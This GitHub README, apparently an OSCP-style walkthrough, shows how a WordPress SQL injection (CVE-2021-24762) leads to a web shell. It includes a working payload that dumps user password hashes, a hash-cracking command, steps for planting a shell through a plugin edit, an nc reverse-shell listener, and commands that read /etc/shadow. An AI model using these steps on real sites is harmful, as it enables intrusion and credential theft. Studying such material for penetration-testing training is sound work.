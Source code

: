 ![image](https://github.com/MalekAlthubiany/WordPressShell-OSCP/assets/127455300/d741d6f2-efee-4a56-aeaf-2e3d8ca8b7ee)

# Uploading a Shell in WordPress via SQLi Entry Point 

This guide walks through the process of exploiting a SQL Injection (SQLi) vulnerability in a WordPress site to upload a shell and gain access to the server.

## Target Information

The target is a WordPress website. After extensive enumeration and testing of various parameters (e.g., ID, p, search), no vulnerabilities were initially found. 

## Discovery of Vulnerability

Using WPScan, I identified a critical CVE:
- **CVE-2021-24762**: [Link to CVE](https://wpscan.com/vulnerability/c1620905-7c31-4e62-80f5-1d9635be11ad)

### Exploit Payload

The payload used for exploiting this vulnerability is:

```
https://example.com/wp-admin/admin-ajax.php?action=get_question&question_id=1%20union%20select%201%2C1%2Cchar(116%2C101%2C120%2C116)%2Cuser_login%2Cuser_pass%2C0%2C0%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%20from%20wp_users
```

The `question_id` must start with an existing post ID. Upon executing this payload, user credentials were leaked, including hashed passwords.

## Cracking the Hash

Using Hashcat, the hash was cracked:

```sh
hashcat -m 400 -a 0 'hash'
```

The password was immediately revealed. Using the cracked credentials, I logged into the WordPress admin panel.

## Uploading a Web Shell

1. **Login to WordPress Admin Panel**:
   - Username: `admin`
   - Password: `crackedhash`

2. **Editing a Plugin**:
   - Navigate to the Plugins section.
   - Choose the "Hello Dolly" plugin 
   - Edit the plugin file (e.g., `hello.php`) to include a web shell code.
   - Update the plugin with the modified code.

3. **Starting a Listener**:
   - Start a listener on your machine to catch the reverse shell:
   
   ```sh
   nc -lnvp 1234
   ```

4. **Activating the Shell**:
   - Visit `https://target.com/wp-content/plugins/hello.php` to activate the shell and gain access to the server.

## Post-Exploitation

After gaining shell access, check your privileges and enumerate the system for sensitive files and data. Due to privilege restrictions, enumeration might be limited.

### Simple Commands for Enumeration

Use simple commands to explore and gather information from the server:

```sh
whoami
uname -a
cat /etc/passwd
cat /etc/shadow
```

### Finding .txt Files

Use the following command to find all `.txt` files in the `/var/www` directory:

```sh
find /var/www -type f -name "*.txt"
```

The results from this command include:

```
/var/www/wordpress/wp-includes/js/swfupload/license.txt
/var/www/wordpress/wp-includes/js/plupload/license.txt
/var/www/wordpress/wp-includes/images/crystal/license.txt
/var/www/wordpress/wp-includes/ID3/readme.txt
/var/www/wordpress/wp-includes/ID3/license.txt
/var/www/wordpress/wp-includes/ID3/license.commercial.txt
/var/www/wordpress/license.txt
/var/www/wordpress/wp-content/themes/oceanwp/readme.txt
/var/www/wordpress/wp-content/themes/oceanwp/inc/customizer/assets/js/customize-search.js.LICENSE.txt
/var/www/wordpress/wp-content/themes/twentytwentytwo/readme.txt
/var/www/wordpress/wp-content/themes/twentytwentytwo/assets/fonts/dm-sans/LICENSE.txt
/var/www/wordpress/wp-content/themes/twentytwentytwo/assets/fonts/ibm-plex/LICENSE.txt
/var/www/wordpress/wp-content/themes/twentytwentytwo/assets/fonts/inter/LICENSE.txt
/var/www/wordpress/wp-content/plugins/wpforms-lite/readme.txt
/var/www/wordpress/wp-content/plugins/wpforms-lite/changelog.txt
/var/www/wordpress/wp-content/plugins/wpforms-lite/vendor/woocommerce/action-scheduler/license.txt
/var/www/wordpress/wp-content/plugins/ocean-stick-anything/readme.txt
/var/www/wordpress/wp-content/plugins/akismet/readme.txt
/var/www/wordpress/wp-content/plugins/akismet/changelog.txt
/var/www/wordpress/wp-content/plugins/akismet/LICENSE.txt
/var/www/wordpress/wp-content/plugins/ocean-social-sharing/readme.txt
/var/www/wordpress/wp-content/plugins/elementor/readme.txt
/var/www/wordpress/wp-content/plugins/elementor/license.txt
/var/www/wordpress/wp-content/plugins/elementor/assets/js/app.min.js.LICENSE.txt
/var/www/wordpress/wp-content/plugins/ocean-extra/readme.txt
/var/www/wordpress/wp-content/plugins/ocean-extra/includes/freemius/includes/sdk/LICENSE.txt
/var/www/wordpress/wp-content/plugins/ocean-extra/includes/freemius/LICENSE.txt
/var/www/wordpress/wp-content/plugins/ocean-extra/changelog.txt
/var/www/wordpress/wp-content/plugins/perfect-survey/readme.txt
```

## Conclusion

This process demonstrates how to leverage a known vulnerability in a WordPress site to gain unauthorized access and upload a shell. Always ensure you have permission to test and exploit vulnerabilities on any target system.

